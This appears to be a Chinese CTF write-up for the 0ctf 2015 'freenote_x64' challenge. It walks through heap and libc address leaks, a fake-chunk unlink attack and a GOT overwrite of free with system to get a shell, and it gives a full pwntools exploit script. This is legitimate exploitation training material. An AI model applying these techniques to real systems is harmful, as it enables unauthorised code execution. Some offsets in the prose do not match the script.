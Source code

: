 # 2015 0ctf pwn--freenote_x64(jarvisoj level6_x64)

题目类似记事本的功能

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/1.png)

漏洞在free堆时没有进行检查

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/2.png)

而且在glibc中，free之后不会清空堆中的内容，输入并没有在末尾加'\x00'截断，可以读取超过预定长度的内容。

注意：程序malloc最小的数值是0x80，然后是0x180。

## 利用思路

double free和unlink搭配实现任意地址读写，目标是修改free_got中的内容。

### 第一步 求出heap_base和libc_base

unlink 需要 修改 fd和bk，所以要知道heap地址，进行修改。

为了防止合并，并一次性获取heap和libc地址，我们分配4个新块。

```python
new(1,'a')
new(1,'a')
new(1,'a')
new(1,'a')
delete(0)
delete(2)
```

这时chunk0的fd，bk和chunk2的fd，bk如下

main_arena<-->  fd  chunk 0  bk <--->   fd    chunk 2   bk ---》main_arena

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/3.png)

这时，新建两个0x8的chunk，覆盖掉chunk2，chunk0，由于new时没有清空堆，list时便会把堆地址和main_arena的地址泄露出来。

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/4.png)

堆基地址

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/5.png)

偏移为 0x242a000 - 0x242b940 = 0x1940

libc_base

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/6.png)

偏移为 0x7f4658fb9b78 - 0x7f4658c1e000 = 0x 39bb78(靶机偏移为0x3be7b8)

### 第二步 修改chunk的fd，bk，通过unlink操作，达到地址任意写

先找到通过unlink的地址，由下图我们选择了chunk2，即heap+0x60
![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/5.png)

还记得上次的unlink吗，2018网鼎杯的babyheap，那是向前合并，这次我们来向后合并，先伪造chunk

```python
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "a"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
```

![image](https://github.com/lhc328/pwn/blob/master/picture/20150ctffreenotex64level6x64/7.png)

free chunk2时，系统会检测chunk2 的flag位为0，prev_size为0x110，地址减0x110到0x51（fake chunk处），p指针指向fake chunk，unlink检测 p->fd->bk==p   p->bk ->fd ==p , 即0xbfd018 + 0x18 = 0xbfd030(上图是0x242030, 由于运行了两次，记住030就好了 -_-！！)    0xbfd020 + 0x10 = 0xbfd030

完成unlink后，chunk0的ptr会指向0xbfd018,我们修改chunk0的ptr指向 free_got，然后再修改时就再 free_got处修改了，这时我们写进去system函数的地址。

```python
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 
#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
```

最后新建一个chunk4，里面内容为"/bin/sh\x00"

free(4),就会执行system('/bin/sh')了

exp:

```python
from pwn import *
 
p = process("./freenote")
elf = ELF("./freenote")
libc = ELF("./libc.so.6")
context.log_level = 'debug'
 
def list():
    p.recvuntil("Your choice: ")
    p.sendline("1")
 
def new(length, note):
    p.recvuntil("Your choice: ")
    p.sendline("2")
    p.recvuntil("new note: ")
    p.sendline(str(length))
    p.recvuntil("note: ")
    p.send(note)
 
def edit(index, length, note):
    p.recvuntil("Your choice: ")
    p.sendline("3")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
    p.recvuntil("Length of note: ")
    p.sendline(str(length))
    p.recvuntil("Enter your note: ")
    p.send(note)
 
def delete(index):
    p.recvuntil("Your choice: ")
    p.sendline("4")
    p.recvuntil("Note number: ")
    p.sendline(str(index))
 
def exit():
    p.recvuntil("Your choice: ")
    p.sendline("5")
 
#leak address
new(1, 'a')
new(1, 'a')
new(1, 'a')
new(1, 'a')
 
delete(0)
delete(2)
 
new(8, '12345678')
new(8, '12345678')
 
list()
p.recvuntil("0. 12345678")
heap = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x1940
p.recvuntil("2. 12345678")
libcbase = u64(p.recvline().strip("\x0a").ljust(8, "\x00")) - 0x3c4b78
 
log.info("heap: %s" % hex(heap))
log.info("libc_base: %s" % hex(libcbase))
 
delete(3)
delete(2)
delete(1)
delete(0)
 
#double link
gdb.attach(p)
payload01  = p64(0) + p64(0x51) + p64(heap + 0x30 - 0x18) + p64(heap + 0x30 - 0x10)
payload01 += "A"*0x30 + p64(0x50) + p64(0x20)
new(len(payload01), payload01)
 
payload02  = "A"*0x80 + p64(0x110) + p64(0x90) + "A"*0x80
payload02 += p64(0) + p64(0x71) + "A"*0x60
new(len(payload02), payload02)
delete(2)
 
 
 
#change
 
free_got = elf.got['free']
system = libcbase + libc.symbols['system']
 
payload03 = p64(8) + p64(0x1) + p64(0x8) + p64(free_got) + "A"*0x40
payload04 = p64(system)
 
#
edit(0, 0x60, payload03)
edit(0, 0x8, payload04)
 
payload05 = "/bin/sh\x00"
new(len(payload05), payload05)
delete(4)
 
p.interactive()
```

